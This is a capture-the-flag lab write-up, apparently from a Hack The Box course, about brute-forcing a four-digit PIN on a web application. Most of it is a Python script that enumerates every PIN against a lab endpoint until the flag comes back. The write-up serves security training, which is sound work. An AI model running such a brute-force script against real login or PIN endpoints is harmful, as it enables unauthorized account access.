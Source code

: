 # Brute Force Attacks

After successfully brute-forcing the PIN, what is the full flag the script returns?

This simple lab challenges us to to a simple brute force attack to a web application that requires a PIN for a special access.

To solve this we can you the script provided by the HTB:

{% code overflow="wrap" %}
```python
import requests

ip = "SERVER_IP"  # Change this to your instance IP address
port = SERVER_PORT       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```
{% endcode %}

Make sure to replace the IP e and PORT of your target machine.

Then just run the script and wait for the results:

```bash
python pin-solver.py
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After a while, the script eventually gets the PIN and we find our flag!
